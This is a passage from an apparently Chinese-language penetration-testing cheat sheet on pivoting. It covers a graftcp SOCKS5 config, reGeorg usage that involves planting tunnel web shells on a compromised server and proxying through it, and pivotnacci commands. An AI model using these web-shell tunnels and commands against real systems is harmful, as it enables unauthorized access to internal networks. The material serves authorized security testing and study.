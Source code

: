 graftcp的简单配置文件

```py
# https://github.com/hmgle/graftcp/blob/master/local/example-graftcp-local.conf
## 监听地址（默认":2233"）
listen = :2233
loglevel = 1

## SOCKS5地址（默认"127.0.0.1:1080"）
socks5 = 127.0.0.1:1080
# socks5_username = SOCKS5USERNAME
# socks5_password = SOCKS5PASSWORD

## 设置选择代理的模式（默认"auto"）
select_proxy_mode = auto
```

## Web SOCKS - reGeorg

[reGeorg](https://github.com/sensepost/reGeorg)，reDuh的继承者，攻破堡垒Web服务器并通过DMZ创建SOCKS代理。旋转并攻破。

在服务器上放置以下文件之一：

- tunnel.ashx
- tunnel.aspx
- tunnel.js
- tunnel.jsp
- tunnel.nosocket.php
- tunnel.php
- tunnel.tomcat.5.jsp

```python
python reGeorgSocksProxy.py -p 8080 -u http://compromised.host/shell.jsp # socks代理将在端口8080上

可选参数：
  -h, --help           显示此帮助信息并退出
  -l , --listen-on     默认监听地址
  -p , --listen-port   默认监听端口
  -r , --read-buff     本地读取缓冲区，每次POST发送的最大数据量
  -u , --url           包含隧道脚本的URL
  -v , --verbose       详细输出[INFO|DEBUG]
```

## Web SOCKS - pivotnacci

[pivotnacci](https://github.com/blackarrowsec/pivotnacci)，一个通过HTTP代理进行socks连接的工具。

```powershell
pip3 install pivotnacci
pivotnacci  https://domain.com/agent.php --password "s3cr3t"
pivotnacci  https://domain.com/agent.php --polling-interval 2000
```

## Metasploit
